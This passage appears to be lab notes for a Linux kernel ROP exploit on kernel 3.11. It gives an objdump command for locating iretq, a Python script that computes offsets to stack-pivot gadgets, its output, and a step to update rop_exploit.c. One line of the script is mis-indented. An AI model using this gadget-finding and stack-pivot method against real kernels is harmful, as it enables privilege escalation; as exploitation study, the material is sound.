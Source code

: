 - Host: find iretq
  
  ```sh
  objdump -j .text -d kernel_image/vmlinux-3.11.0-15-generic | grep iretq | head -1
  ffffffff81050dd6:	48 cf                	iretq
  ```

- Host: Find offset to xchg gadget

  - On my system the first xchg gadget not work because disassembly is different when run debug. So need update find_offset.py to find all and try (the second one work for me)

    ```python
    #!/usr/bin/env python
    import sys

    base_addr = int(sys.argv[1], 16)

    f = open(sys.argv[2], 'r') # gadgets

    for line in f.readlines():
      target_str, gadget = line.split(':')
      target_addr = int(target_str, 16)

      # check alignment
      if target_addr % 8 != 0:
        continue
      print '='*4
      offset = (target_addr - base_addr) / 8
      print 'offset =', (1 << 64) + offset
            print 'gadget =', line.strip()
      print 'stack addr = %x' % (target_addr & 0xffffffff)
      #break
    ```

    ```sh
    $ grep ': xchg eax, esp ; ret' kernel.gadgets > kernel.xchg.gadgets
    $ python ../kernel_rop/find_offset.py 0xffffffffa0002340 kernel.xchg.gadgets
    ====
    offset = 18446744073644639793
    gadget = 0xffffffff810c54c8 : xchg eax, esp ; ret 0x14ff
    stack addr = 810c54c8
    ====
    offset = 18446744073645214365
    gadget = 0xffffffff81527828 : xchg eax, esp ; ret 0x21
    stack addr = 81527828
    ====
    offset = 18446744073644591982
    gadget = 0xffffffff81067eb0 : xchg eax, esp ; ret 0x3145
    stack addr = 81067eb0
    ====
    ```

- Host: update rop_exploit.c with above information
  